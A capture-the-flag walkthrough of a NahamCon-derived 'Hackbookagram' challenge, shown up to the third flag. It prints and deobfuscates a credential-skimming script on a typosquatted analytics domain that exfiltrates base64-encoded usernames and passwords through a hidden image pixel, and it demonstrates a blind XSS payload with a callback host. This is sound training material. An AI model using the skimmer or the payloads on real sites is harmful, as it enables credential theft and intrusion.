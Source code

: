 # Hackbookagram

http://www.hackbookagram.com/ - 7 flags to find

![alt](./images/hackagram-01.png)

Little intro to this challenge

```
This challenge was originally built for NahamCon

Usernames and passwords are somehow being stolen from hackbookagram

Find out how they are being stolen, locate the hackers servers and trash their cache of usernames and passwords
```

Let's start with subs first

```
└─$ assetfinder -subs-only hackbookagram.com
hackbookagram.com
hackbookagram.com
www.hackbookagram.com
```

Also using the subdomain wordlist brought back nothing. Main application it is then! OK content discovery

Hmmm ok lot's of 302's and a few 404 responses on .php extensions. I decided to take a closer look at the scripts included in the index and I spot this.

```html
<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmaneger.com/gtag/js?id=UA-978312237-6"></script>
<script>
    window.dataLayer = window.dataLayer || [];
    function gtag(){dataLayer.push(arguments);}
    gtag('js', new Date());

    gtag('config', 'UA-978312237-6');
</script>
```

The typo on `maneger` sticks out like a sore thumb for me, visit the root domain and.....

![alt](./images/hackagram-02.png)

Aha! :D Let's take a closer look at the script that gets pulled back by the src location above

```javascript
// Copyright 2012 Google Inc. All rights reserved.
(function() {
    var data = {
        "resource": {
            "version": "1",
            "macros": [{
                "function": "__e"
            }, {
                "function": "__cid"
            }],
            "tags": [{
                "function": "__rep",
                "once_per_event": true,
                "vtp_containerId": ["macro", 1],
                "tag_id": 1
            }],
            "predicates": [{
                "function": "_eq",
                "arg0": ["macro", 0],
                "arg1": "gtm.js"
            }],
            "rules": [
                [
                    ["if", 0],
                    ["add", 0]
                ]
            ]
        },
        "runtime": []
    };
    /*

    Copyright The Closure Library Authors.
    SPDX-License-Identifier: Apache-2.0
    */
    var bb = 'lo';
    var cd = 'Btn';
    var ccr = 'gin';
    document.getElementById(bb + ccr + cd).addEventListener("click", function() {
        var a_1 = 'htt';
        var a_2 = 'p://';
        var a_3 = 'hac';
        var a_4 = 'kboo';
        var a_5 = 'kag';
        var a_6 = 'ram';
        var a_7 = '.c';
        var a_8 = 'om/';
        var a_9 = 'log';
        var a_10 = 'in';
        var e = new XMLHttpRequest;
        e.open("POST", a_1 + a_2 + a_3 + a_4 + a_5 + a_6 + a_7 + a_8 + a_9 + a_10, !0), e.setRequestHeader("Content-type", "application/x-www-form-urlencoded"), e.onload = function() {
            var t = JSON.parse(e.responseText);
            if (console.log(), 201 == e.status) {
                var n = btoa("username=" + document.getElementById("username").value + "&password=" + document.getElementById("password").value);
                document.body.innerHTML = document.body.innerHTML + '<img src="https://www.googletagmaneger.com/event?e=' + n + '" height="1" width="1" style="display:none">', window.location = t[0]
            } else alert(t[0])
        }, e.send("username=" + document.getElementById("username").value + "&password=" + document.getElementById("password").value), event.stopImmediatePropagation()
    });
})();
```

OK well the click event listener is partially obsfuscated but a quick refactor and I suspect I can get that to make more sense...

```javascript
(function() {
    document.getElementById('loginBtn').addEventListener("click", function() {
        var e = new XMLHttpRequest;
        e.open("POST", 'http://hackbookagram.com/login', !0), e.setRequestHeader("Content-type", "application/x-www-form-urlencoded"), e.onload = function() {
            var t = JSON.parse(e.responseText);
            if (console.log(), 201 == e.status) {
                var n = btoa("username=" + document.getElementById("username").value + "&password=" + document.getElementById("password").value);
                document.body.innerHTML = document.body.innerHTML + '<img src="https://www.googletagmaneger.com/event?e=' + n + '" height="1" width="1" style="display:none">', window.location = t[0]
            } else alert(t[0])
        }, e.send("username=" + document.getElementById("username").value + "&password=" + document.getElementById("password").value), event.stopImmediatePropagation()
    });
})();
```

The page also includes its own website.js with a separate click event listener registered via jQuery

```javascript
$(document).ready( function(){
    $("#loginBtn").click( function(){
        $.post('/login',
            {
                'username'  :   $('input[name="username"]').val(),
                'password'  :   $('input[name="password"]').val()
            },function(resp){
                window.location = resp;
            }).fail(function(resp){
                alert( resp.responseJSON[0] );
        });
    });
})
```

So two click events on one button, the POST from the manegar site to hackbookagram may be failing however due to CORS

```
Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at http://hackbookagram.com/login. (Reason: CORS header ‘Access-Control-Allow-Origin’ missing).
```

OK so let's say the POST was working for the moment and we received a 201 response back, i.e. we get to this if block

```javascript
if (console.log(), 201 == e.status) {
    var n = btoa("username=" + document.getElementById("username").value + "&password=" + document.getElementById("password").value);
    document.body.innerHTML = document.body.innerHTML + '<img src="https://www.googletagmaneger.com/event?e=' + n + '" height="1" width="1" style="display:none">', window.location = t[0]
}
```

Let's assume username was 'test' and password was '12345' eg.

```javascript
var n = btoa("username=test&password=12345");
```

The value of n would be `dXNlcm5hbWU9dGVzdCZwYXNzd29yZD0xMjM0NQ==`

And it would attempt to add an invisible image to the page with the HTML

```html
<img src="https://www.googletagmaneger.com/event?e=dXNlcm5hbWU9dGVzdCZwYXNzd29yZD0xMjM0NQ==" height="1" width="1" style="display:none">
```

So as `googletagmanegar' isn't the real Google this must be how the hackers are stealing the creds. This doesn't however give me any flags :D

So now it's time to

```locate the hackers servers and trash their cache of usernames and passwords```

After I set the cookie in the request to googletagmanegar.com and request it in the browser I get directed to a login

![alt](./images/hackagram-03.png)

Let's perform the same steps against the googletagmaneger.com domain

```
└─$ assetfinder -subs-only googletagmaneger.com                                                                     
googletagmaneger.com
www.googletagmaneger.com
googletagmaneger.com
googletagmaneger.com
googletagmaneger.com
www.googletagmaneger.com
```

Subdomain word list also brought back nothing. Content discovery...

- /event - HTTP 200 blank page
- /login - HTTP 200 login page
- /css/ - HTTP 403
- /js/- HTTP 403
- /logout/ - HTTP 302 redirect to login with cookie "user-login-cookie=deleted"

Now the event page looks blank, but perhaps it does something with that base64 value behind the scenes

```event?e=dXNlcm5hbWU9dGVzdCZwYXNzd29yZD0xMjM0NQ==```

The value of which was

```username=test&password=12345```

So we're blind here! Blind XSS maybe? Well yes kind of, I fired up Collab client copied my domain and base64 encoded something like

```
username=<img src="http://xxx.oastify.com/x">&password=<img src="http://xxx.oastify.com/x">
```

i.e. a request to 

```event?e=dXNlcm5hbWU9PGltZyBzcmM9Imh0dHA6Ly94eHgub2FzdGlmeS5jb20veCI%2bJnBhc3N3b3JkPTxpbWcgc3JjPSJodHRwOi8veHh4Lm9hc3RpZnkuY29tL3giPg%3d%3d```

The following appeared

```
The Collaborator server received a DNS lookup of type A for the domain name xxx.oastify.com.  The lookup was received from IP address 138.68.180.134 at 2022-Jun-13 19:30:36 UTC.
```

```
The Collaborator server received a DNS lookup of type A for the domain name xxx.oastify.com.  The lookup was received from IP address 138.68.180.132 at 2022-Jun-13 19:30:36 UTC.
```

```
The Collaborator server received an HTTPS request.  The request was received from IP address 178.62.61.49 at 2022-Jun-13 19:30:37 UTC.
```

So the first two are just IP's from digitalocean, but if I visit the last one in the browser

![alt](./images/hackagram-04.png)

Flag no.3 :)